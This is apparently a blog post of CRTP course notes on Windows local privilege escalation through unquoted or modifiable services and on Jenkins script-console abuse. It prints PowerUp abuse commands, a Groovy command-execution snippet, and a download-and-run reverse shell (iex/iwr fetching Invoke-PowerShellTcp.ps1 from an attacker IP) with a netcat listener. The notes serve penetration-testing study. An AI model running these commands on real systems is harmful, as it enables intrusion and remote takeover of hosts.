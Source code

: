 ```yaml
---
title: "2 - Win Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser3.jpg
  overlay_image: /assets/images/main/header1.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Unquoted Paths and Modifiable Services"
description: "Unquoted Paths and Modifiable Services"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows 
toc : true
---
```

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="nullified" data-description="Support me on Buy me a coffee!" data-message="" data-color="#FF813F" data-position="Right" data-x_margin="18" data-y_margin="18"></script>


# Win Privesc - Local

> The material of CRTP about Local Privesc is not great

**There are various ways of locally escalating privileges on Windows box**:
```powershell
– Missing patches
– Automated deployment and AutoLogon passwords in clear text
– AlwaysInstallElevated (Any user can run MSI as SYSTEM)
– Misconfigured Services
– DLL Hijacking and more
– NTLM Relaying a.k.a. Won't Fix
```

**We can use below tools for complete coverage**:

[PowerSploit - Privesc Module](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[Privesc on GitHub](https://github.com/enjoiz/Privesc)

[winPEAS in PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)


## Services Issues using PowerUp

**Get services with unquoted paths and a space in their name**:
```powershell
Get-ServiceUnquoted -Verbose
```

**Get services where the current user can write to its binary path or change arguments to the binary**:
```powershell
Get-ModifiableServiceFile -Verbose
```

**Get the services whose configuration current user can modify**:
```powershell
Get-ModifiableService -Verbose
```

**Run all checks with automated tools** :
```powershell
# PowerUp:
Invoke-AllChecks

# Privesc:
Invoke-PrivEsc

# PEASS-ng:
winPEASx64.exe
```

## Feature Abuse
```
- If you have Admin access (default installation before 2.x), go to http://<jenkins_server>/script
- In the script console, Groovy scripts could be executed.
```

```powershell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '
[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
```powershell
powershell -c <command>
```

> Again, you could download and execute scripts, run encoded scripts and more.


**Learning Objective 5**:

- Exploit a service and elevate privileges to local administrator.
- Identify a machine in the domain where ur user has local administrative access.
- Using privileges of a user on Jenkins get admin privileges on another server.


**[easy to detect]**
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Username dcorp\studentx -Verbose
net localgroup Administrators
```

**[easy to detect - noise]**
```powershell
Find-PSRemotingLocalAdminAccess
```

```powershell
on Jenkins> powershell iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcp.ps1); power -Reverse -IPAddress 172.16.100.1 -Port 443
on Attacker> host the file in a webserver - example: HFS - HTTP File Server 
```

disable firewall or add exception
```powershell
on Attacker> netcat-win32-1.12.exe -lvp 443
```

